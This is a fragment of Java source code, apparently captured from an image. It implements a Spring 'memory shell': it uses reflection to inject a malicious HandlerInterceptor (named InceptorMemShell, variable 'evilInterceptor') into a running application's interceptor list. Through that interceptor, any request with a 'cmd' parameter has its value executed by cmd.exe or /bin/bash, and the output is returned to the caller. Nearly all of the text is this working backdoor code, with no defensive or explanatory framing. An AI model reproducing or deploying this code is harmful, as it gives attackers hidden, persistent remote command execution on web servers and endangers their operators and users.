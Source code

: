 ```java
        System.out.println("staart");
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        InceptorMemShell evilInterceptor = new InceptorMemShell();
        adaptInterceptors.add(evilInterceptor);
        System.out.println("ok");
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setCharacterEncoding("gbk");
                java.io.PrintWriter printWriter = response.getWriter();
                ProcessBuilder builder;
                String o = "";
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    builder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                } else {
                    builder = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                }
                java.util.Scanner c = new java.util.Scanner(builder.start().getInputStream(),"gbk").useDelimiter("wocaosinidema");
                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.println(o);
                printWriter.flush();
                printWriter.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
```